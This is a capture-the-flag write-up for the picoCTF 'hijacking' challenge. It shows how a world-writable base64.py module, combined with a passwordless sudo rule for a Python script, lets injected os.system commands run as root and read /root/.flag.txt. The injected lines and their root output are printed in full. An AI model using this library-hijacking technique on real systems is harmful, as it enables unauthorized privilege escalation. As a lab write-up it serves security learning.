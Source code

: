 # hijacking #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#python #privilegeescalation #libraryhijack`
 
## Description ##
 
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
## Approach ##
 
Listing the contents of the home folder on the challenge instance : 

    drwxr-xr-x 1 picoctf picoctf   20 Mar 27 06:35 .
    drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
    -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
    drwx------ 2 picoctf picoctf   34 Mar 27 06:35 .cache
    -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
    -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

The hidden `.server.py` python script is the file of interest referred to in the description. Note this file is owned by `root` and permissions do not allow for editing. There is no typical `flag.txt` file or similar in sight.

The contents of the `.server.py` python script is as below, with nothing overly nefarious looking within :

    import base64
    import os
    import socket
    ip = 'picoctf.org'
    response = os.system("ping -c 1 " + ip)
    #saving ping details to a variable
    host_info = socket.gethostbyaddr(ip) 
    #getting IP from a domaine
    host_info_to_str = str(host_info[2])
    host_info = base64.b64encode(host_info_to_str.encode('ascii'))
    print("Hello, this is a part of information gathering",'Host: ', host_info) 

 Executing the python script yields :

    picoctf@challenge:~$ python3 .server.py
    sh: 1: ping: not found
    Traceback (most recent call last):
      File ".server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname

Initially I spent a long time trying to construct a fake `ping` command to take place of the missing binary, but without much success so I started looking more closely at the python modules imported and the potential for a hijacking.

First step was to find the location of the modules in use :

    picoctf@challenge:~$ python3
    Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
    [GCC 9.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import sys
    >>> print(sys.path)
    ['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
    >>> quit()

Looking at the permissions of the `base64` module within `/usr/lib/python3.8` we have full read-write-execute access.

    picoctf@challenge:~$ ls -al /usr/lib/python3.8
    -rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

So we could modify the imported `base64` module with our own code, but what held me up next was attempting to facilitate the execution of the `.server.py` script to the `base64.b64encode()` function, where I would put all my code. I looked into attempting to adding hosts to try and resolve the host information and allow execution to continue beyond the `socket.gethostbyadd(ip)` call.

But then I realised that all code within the imported module is executed upon import, I didn't have to wait for the use of `base64.b64encode()` function, I could add my code to the top of the `base64` module and it would get executed on import.

This left the remaining piece of the puzzle, how to escalate privileges to be able to run as `root`. So I checked what commands could be run via `sudo` :

    picoctf@challenge:~$ sudo -l
    Matching Defaults entries for picoctf on challenge:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User picoctf may run the following commands on challenge:
      (ALL) /usr/bin/vi
      (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Notice our `.server.py` script can be run via `sudo` without password.
 
## Solution ##
 
The solution below includes my prototyping, proof of concept and exploration to confirm privelige escalation and to assist in finding the flag, hence is not a "minimal" solution, but is presented as was used during the event.

The following lines were added to the top of `/lib/python3.8/base64.py` :

    import os
    print('Hello World!')
    os.system('whoami')
    os.system('ls -al /root > /home/picoctf/r.txt')
    os.system('cat /root/.flag.txt')

Now running the `.server.py` script with the modified `base64` import module yields the following output (actual flag value has been redacted for the purposes of this write up) :

    $ sudo python3 /home/picoctf/.server.py
    Hello World!
    root
    picoCTF{.......<redacted>...............}
    sh: 1: ping: not found
    Traceback (most recent call last):
      File "/home/picoctf/.server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip) 
    socket.gaierror: [Errno -5] No address associated with hostname